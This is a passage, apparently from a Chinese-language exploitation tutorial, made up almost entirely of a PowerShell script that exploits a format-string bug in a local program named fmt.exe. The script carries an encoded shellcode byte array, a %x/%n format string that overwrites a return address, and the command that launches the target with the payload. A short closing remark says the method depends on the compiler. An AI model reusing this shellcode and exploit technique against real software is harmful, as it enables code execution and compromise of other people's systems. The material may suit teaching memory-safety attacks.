```
[Byte[]] $shellcode += 0x89,0xe0,0xdd,0xc7,0xd9,0x70,0xf4,0x5a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x4a,0x43,0x43,0x43,0x43,0x43,0x43,0x37,0x52,0x59,0x6a,0x41,0x58,0x50,0x30,0x41,0x30,0x41,0x6b,0x41,0x41,0x51,0x32,0x41,0x42,0x32,0x42,0x42,0x30,0x42,0x42,0x41,0x42,0x58,0x50,0x38,0x41,0x42,0x75,0x4a,0x49,0x49,0x6c,0x78,0x68,0x4c,0x42,0x55,0x50,0x73,0x30,0x33,0x30,0x61,0x70,0x6c,0x49,0x6b,0x55,0x56,0x51,0x4b,0x70,0x73,0x54,0x6c,0x4b,0x56,0x30,0x56,0x50,0x6c,0x4b,0x32,0x72,0x76,0x6c,0x4e,0x6b,0x71,0x42,0x57,0x64,0x4e,0x6b,0x73,0x42,0x34,0x68,0x44,0x4f,0x48,0x37,0x53,0x7a,0x74,0x66,0x34,0x71,0x39,0x6f,0x4c,0x6c,0x45,0x6c,0x43,0x51,0x73,0x4c,0x76,0x62,0x44,0x6c,0x65,0x70,0x6b,0x71,0x38,0x4f,0x64,0x4d,0x37,0x71,0x7a,0x67,0x59,0x72,0x68,0x72,0x43,0x62,0x42,0x77,0x4e,0x6b,0x50,0x52,0x32,0x30,0x4e,0x6b,0x72,0x6a,0x77,0x4c,0x6e,0x6b,0x52,0x6c,0x57,0x61,0x73,0x48,0x78,0x63,0x72,0x68,0x33,0x31,0x38,0x51,0x30,0x51,0x6e,0x6b,0x70,0x59,0x75,0x70,0x55,0x51,0x4e,0x33,0x6c,0x4b,0x73,0x79,0x46,0x78,0x7a,0x43,0x45,0x6a,0x62,0x69,0x4c,0x4b,0x65,0x64,0x6c,0x4b,0x75,0x51,0x38,0x56,0x50,0x31,0x59,0x6f,0x4c,0x6c,0x59,0x51,0x6a,0x6f,0x76,0x6d,0x63,0x31,0x48,0x47,0x44,0x78,0x4d,0x30,0x42,0x55,0x4c,0x36,0x65,0x53,0x31,0x6d,0x58,0x78,0x55,0x6b,0x31,0x6d,0x71,0x34,0x31,0x65,0x6a,0x44,0x61,0x48,0x6e,0x6b,0x32,0x78,0x51,0x34,0x55,0x51,0x6a,0x73,0x71,0x76,0x6c,0x4b,0x44,0x4c,0x70,0x4b,0x4e,0x6b,0x53,0x68,0x57,0x6c,0x73,0x31,0x49,0x43,0x4e,0x6b,0x74,0x44,0x6e,0x6b,0x76,0x61,0x78,0x50,0x4c,0x49,0x30,0x44,0x76,0x44,0x66,0x44,0x73,0x6b,0x43,0x6b,0x61,0x71,0x53,0x69,0x32,0x7a,0x72,0x71,0x79,0x6f,0x6d,0x30,0x43,0x6f,0x63,0x6f,0x72,0x7a,0x6e,0x6b,0x74,0x52,0x7a,0x4b,0x4e,0x6d,0x31,0x4d,0x43,0x5a,0x55,0x51,0x6e,0x6d,0x4f,0x75,0x38,0x32,0x75,0x50,0x55,0x50,0x65,0x50,0x30,0x50,0x71,0x78,0x65,0x61,0x6c,0x4b,0x52,0x4f,0x6d,0x57,0x79,0x6f,0x4a,0x75,0x4f,0x4b,0x4a,0x50,0x4d,0x65,0x49,0x32,0x73,0x66,0x71,0x78,0x6f,0x56,0x6d,0x45,0x6f,0x4d,0x6f,0x6d,0x39,0x6f,0x4b,0x65,0x75,0x6c,0x45,0x56,0x51,0x6c,0x64,0x4a,0x4d,0x50,0x4b,0x4b,0x79,0x70,0x31,0x65,0x37,0x75,0x4d,0x6b,0x71,0x57,0x76,0x73,0x62,0x52,0x52,0x4f,0x71,0x7a,0x63,0x30,0x62,0x73,0x49,0x6f,0x69,0x45,0x53,0x53,0x51,0x71,0x50,0x6c,0x33,0x53,0x36,0x4e,0x53,0x55,0x70,0x78,0x32,0x45,0x45,0x50,0x41,0x41
$egg += [Byte[]] (0x41) * (80 - $egg.Length)
$fmt = ([system.Text.Encoding]::ASCII).GetBytes('%x' * 305)      +
([system.Text.Encoding]::ASCII).GetBytes('%.425430x' * 3) +
([system.Text.Encoding]::ASCII).GetBytes('%.424942x')     +
([system.Text.Encoding]::ASCII).GetBytes('%n')
$ret = [System.BitConverter]::GetBytes(0x0019f730)
$final = $egg + $fmt + $shellcode + $ret
$payload = ''
ForEach ($i in $final) {
$payload += ([system.Text.Encoding]::Default).GetChars($i)
}
Start-Process ./fmt.exe -ArgumentList $payload
```

这种利用方法依赖于编译器。我在 Embarcadero C++ (Borland C++)和 Visual C++ 2000 编译器上试验过这个。在其他编译器中， *printf* 函数与这些不一样。您可以对其他编译器进行更多的研究